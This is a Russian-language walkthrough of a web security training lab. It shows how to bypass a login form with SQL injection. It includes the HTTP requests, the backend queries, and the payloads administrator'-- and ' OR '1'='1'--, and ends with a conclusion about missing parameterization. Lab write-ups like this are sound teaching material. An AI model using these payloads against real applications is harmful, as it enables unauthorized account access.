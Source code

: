 # SQLi — Login bypass: входим без пароля

**Lab:** SQL injection vulnerability allowing login bypass  
**Уровень:** Apprentice  
**Статус:** Solved

---

## TL;DR

Уязвимость в логине: поле `username` напрямую вставляется в SQL-запрос без фильтрации. Через инъекцию `OR '1'='1'--` обходим аутентификацию и заходим под админом.

---

## Исходный запрос

Форма логина отправляет POST-запрос:

```http
POST /login HTTP/1.1
Host: <lab-id>.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=administrator&password=anyvalue
```

На бэкенде выполняется:

```sql
SELECT * FROM users WHERE username = 'administrator' AND password = 'anyvalue'
```

---

## Цель

Обойти проверку логина и попасть в аккаунт администратора без знания пароля.

---

## Эксплуатация

Модифицируем поле `username` на:

```
administrator'-- 
```

или используем логическое выражение:

```
' OR '1'='1'--
```

Обновлённый запрос:

```http
POST /login HTTP/1.1
Host: <lab-id>.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=administrator'-- &password=irrelevant
```

На бэкенде запрос превращается в:

```sql
SELECT * FROM users WHERE username = 'administrator'-- ' AND password = 'irrelevant'
```

`--` комментирует остаток запроса, условие по паролю игнорируется.

---

## Проверка

Если после отправки модифицированного запроса происходит вход в систему под админом — уязвимость успешно использована.

---

## Что проверили

- Инъекция в поле `username`
- Обход аутентификации через комментарий `--`
- Отсутствие параметризации в SQL-запросе

---

## Скрин

![sqli-login-bypass](./02.png)

---

## Вывод

Классическая уязвимость в логине через SQL-инъекцию. Отсутствие параметризации и фильтрации пользовательского ввода позволяет обойти аутентификацию. Такие уязвимости всё ещё встречаются в реальных приложениях, особенно в устаревших системах.
